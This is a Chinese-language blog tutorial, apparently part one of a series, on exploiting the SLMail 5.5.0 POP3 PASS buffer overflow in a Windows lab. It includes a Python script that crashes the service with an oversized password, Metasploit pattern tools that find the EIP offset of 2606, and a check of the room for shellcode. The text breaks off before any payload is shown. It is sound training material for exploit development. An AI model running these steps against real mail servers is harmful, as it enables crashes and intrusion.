 ```yaml
---
title: slmail&windows缓冲区溢出案例（一）
categories:
- buffer overflow
tags:
- buffer overflow
---
```

缓冲区溢出案例与exp开发流程
===
- bug是怎么找到的?
- 你怎么知道x比特在y命令，可以使应用程序崩溃造成缓冲区溢出漏洞？

有三种方法：
1. 如果有源代码，阅读源码是最简单的寻找bug的方式。
2. 逆向工程
3. fuzzing

---
fuzzing 是一种向应用程序发送构造的数据，然后期盼程序崩溃。
程序崩溃说明程序没有对输入做正确的过滤。
## 漏洞历史
下面讲一下在slmail 5.5.0 邮件服务软件上的知名缓冲区溢出漏洞。
在2005年发现，pop3 pass命令，在用户登陆的时候，有bof漏洞。攻击者无需知道
任何口令即可引发bof漏洞。
该软件未使用DEP或者ASLR编译，使得漏洞利用过程更加简单，我们不必绕过这些内部安全机制。
## DEP和ASLR
这是微软的内存保护机制。
DEP是一系列硬件、软件技术，执行额外的内存检查，防止恶意代码在程序上运行。
DEP主要的好处是当发生异常时，防止代码从数据区执行。
ASLR打乱载入应用程序、动态链接库时候的基地址（base address)
## 与pop3协议通信
我们选择slmail作为案例的原因是，与纯文本pop3协议通信十分简单。
我们可以使用netcat与pop3服务器进行通信。

https://slmail.software.informer.com/5.5/
安装exe到windows，重启后，windows开放了pop3-110端口 

![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/16.PNG)

## 写一个python脚本
这个脚本的作用很简单，和nc起到的作用一样。为什么要写这个脚本呢?因为根据这个脚本稍作修改，就可以改为fuzzer脚本，使得应用程序崩溃。
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/15.PNG)

[https://github.com/Whale3070/ctf-coding/blob/master/send.py](https://github.com/Whale3070/ctf-coding/blob/master/send.py)

[https://github.com/Whale3070/ctf-coding/blob/master/fuzzer.py](https://github.com/Whale3070/ctf-coding/blob/master/fuzzer.py)

## immunity debugger
![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/18.PNG)

左上 --指令面板

右上 --寄存器面板

左下 --内存转储面板

右下 --堆栈面板

---
file -- attach --SLmail
![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/17.PNG)

挂载后，点击下图的开始按钮，运行程序
![20](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/20.PNG)

运行[fuzzer.py](https://github.com/Whale3070/ctf-coding/blob/master/fuzzer.py)，使程序崩溃，造成了缓冲区溢出

![19](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/19.PNG)

## 定位缓冲区大小
定位缓冲区大小，当输入2500个a，程序运行正常；输入2600个a时候，就会报错。
```
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer= 'a' * 2700
try:
	print "\nSending evil buffer..."
	s.connect(('192.168.1.102',110)) # connect to IP, POP3 port
	data = s.recv(1024) # receive banner
	print data # print banner
	
	s.send('USER test' +'\r\n') # send username "test"
	data = s.recv(1024) # receive reply
	print data # print reply
	
	s.send('PASS' + buffer + '\r\n') # send password "test"
	data = s.recv(1024)
	print data # print reply
	
	s.close() # close socket
	print "\nDone!"
except:
	print "Could not connect to POP3!"
```
## 控制eip

控制eip寄存器是exp开发流程中关键的有，eip寄存器就像驾驭马的辔头一样，控制缰绳就让应用程序前进，
拉着缰绳就能让它改变前进方向。所以我们使用4个A在buffer(缓冲区)中覆盖了EIP，这里有两个常见的方法：
### 二叉树分析
将2700个A修改为，发送1350A和1350个B，如果EIP被B所覆盖，我们知道了4比特存在于buffer的第二部分。
接下来，修改1350个B为675个B和675个C，然后再一次发送buffer。
如果EIP被C覆盖，我们知道了4bit存在于2000-2700比特范围之间。
我们继续将buffer二分直到我们知道了准确的覆盖EIP的4bit。
从数学上来说，这将在7次之内找到。
### 发送一个特殊的字符串(使用msf）
最快的方式是发送一个特殊的字符，来确认覆盖EIP的范围，然后在buffer中查找这个字符。

**patter_create.rb**

是一个ruby工具，来创建和定位这样的buffer，并且可以在msf中找到它。
使用方法：
```
locate pattern_create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```
![21](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/21.PNG)

复制生成的字符串，修改[send.py](https://github.com/Whale3070/ctf-coding/blob/master/send.py)，将字符串作为pass密码发送，而不是2700个A，注意下一次程序崩溃时，ESP和EIP寄存器中的值

![22](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/22.PNG)

执行send3py

![23](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/23.PNG)注意弹框的地址`39694438`

```
locate pattern_offset.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438

[*] Exact match at offset 2606
```
于是得知了offset为2606

## 检查buffer，准备执行shellcode
msf可以自动生成shellcode，标准的反弹shell的payload（有效载荷）需要大约350-400比特的空间。

![24](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/24.PNG)
修改buffer，`string= "A"* 2606+ "B"*4 + "C"*(3500-2606-4)`
查看最后的crash，我们可以看到ESP寄存器直接指向了我们缓冲区的C地址，这看起来有足够的空间让我们放置shellcode。


